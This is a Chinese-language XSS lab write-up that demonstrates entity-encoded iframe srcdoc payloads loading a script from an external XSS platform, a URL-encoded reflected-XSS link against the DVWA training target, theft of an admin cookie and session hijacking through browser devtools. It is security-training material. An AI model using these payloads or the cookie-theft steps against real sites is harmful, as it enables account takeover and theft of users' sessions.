 
三、标签iframe等

1.实体10进制编码↓

<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。<sCRiPt sRC="https://xss.pt/GFLX"></sCrIpT>>

  

2.实体16进制编码

<iframe WIDTH=0 HEIGHT=0 srcdoc=。。。。。。。。。。<sCRiPt sRC="https://xss.pt/GFLX"></sCrIpT>>

这里我用到dvwa靶场的medium级别。为了更好的验证，我使用了username为1337的用户进行登录。

这里我先构造js代码测试出这里存在反射型xss漏洞

然后构造链接

http://192.168.1.3/dvwa/vulnerabilities

/xss_r/?name=%3Ciframe WIDTH%3D0HEIGHT%3D0 srcdoc%3D%E3%80%82%E3%80%82%E3%80%82%E3

%80%82%E3%80%82%E3%80%82%E3%80%82%E3%80%82

%E3%80%82%E3%80%82%26%23x3C%3B%26%23x73

%3B%26%23x43%3B%26%23x52%3B%26%23x69%3B

%26%23x50%3B%26%23x74%3B%26%23x20%3B%26

%23x73%3B%26%23x52%3B%26%23x43%3B%26

%23x3D%3B%26%23x22%3B%26%23x68%3B%26

%23x74%3B%26%23x74%3B%26%23x70%3B%26

%23x73%3B%26%23x3A%3B%26%23x2F%3B%26

%23x2F%3B%26%23x78%3B%26%23x73%3B%26

%23x73%3B%26%23x2E%3B%26%23x70%3B%26

%23x74%3B%26%23x2F%3B%26%23x47%3B%26

%23x46%3B%26%23x4C%3B%26%23x58%3B%26

%23x22%3B%26%23x3E%3B%26%23x3C%3B%26

%23x2F%3B%26%23x73%3B%26%23x43%3B%26

%23x72%3B%26%23x49%3B%26%23x70%3B%26

%23x54%3B%26%23x3E%3B%3E#

然后再用admin账户登录，级别为low。复制构造好的网址并访问

然后就盗取到该cookie了，看到cookie值security=low，正好是我们设置的low级别，得知盗取admin账户的cookie成功了

最后按F12，点击Application这一栏，将其中的cookie修改为我盗取到的admin的cookie，再刷新界面，可以看到我们变成了admin的账户，级别也变为low了

#### **3.1.2.2.****注意**

刚开始我不是用火狐的低版本浏览器来验证，而是用Microsoft Edge 88.0.705.74的高版本浏览器来验证，一直失败，最后用火狐就成功了。我觉得这里应该是涉及到了浏览器的安全策略问题，所以尽量使用低版本的浏览器来做XSS漏洞，高版本会过滤js本地的一些脚本的加载使攻击失效。
